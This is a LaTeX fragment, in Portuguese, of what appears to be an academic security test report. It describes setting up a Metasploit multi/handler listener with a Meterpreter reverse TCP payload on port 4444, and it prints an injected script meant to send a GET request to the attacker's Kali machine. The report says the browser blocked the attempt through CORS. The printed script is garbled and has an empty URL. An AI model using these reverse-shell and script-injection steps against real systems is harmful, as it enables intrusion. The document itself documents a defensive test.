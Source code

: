 \documentclass[
    12pt,               %
    openright,          %
    oneside,            %
    a4paper,            %
    section=TITLE,     %
    english,            %
    french,             %
    spanish,            %
    brazil              %
    ]{abntex2}
\newcommand{\citep}{\cite}
\begin{document}
Passos executados:



\begin{enumerate}[start=1]
	
\item Através do exploit disponível em \emph{Exploit/Multi/Handler }com o payload windows-meterpreter-reverse\_tcp\emph{, }usar o Metasploit para abrir um listener na porta 4444 da máquina virtual utilizada para testes;
	
\item Usar um comando GET de Javascript para abrir a conexão entre a máquina que acessa a aplicação e a máquina virtual utilizada para testes na porta indicada.

\end{enumerate}

Dessa forma, será criado um listener para ficar ouvindo conexões. Quando ocorre alguma conexão externa, ele executa o payload carregado no momento, que no caso é o \emph{windows/meterpreter/reverse\_tcp} utilizado para abrir uma conexão reversa da máquina atacada para a máquina atacante.


O código abaixo cria um objeto do tipo XMLHttpRequest e inicia uma chamada Ajax~ do tipo GET para IP\_do\_kali\_linux na porta 4444 de forma assíncrona.


$\textless$script$\textgreater$


r = new XMLHttpRequest();


r.open(''GET``,\rq{}\rq{},false);


r.send();


$\textless$/script$\textgreater$



\paragraph*{Resultado esperado}

Espera-se que a máquina que hospeda o sistema não permita que a sessão do Meterpreter seja aberta. E consequentemente, não haja acesso ao sistema operacional da máquina que hospeda a aplicação.



\paragraph*{Relatório de execução}

Não foi possível realizar o teste com êxito. Pois conforme mostra a Figura 28, o browser Iceweasel bloqueia a requisição usando o filtro de CORS \citep{62210}~ ~ ~ ~ ~
\end{document}

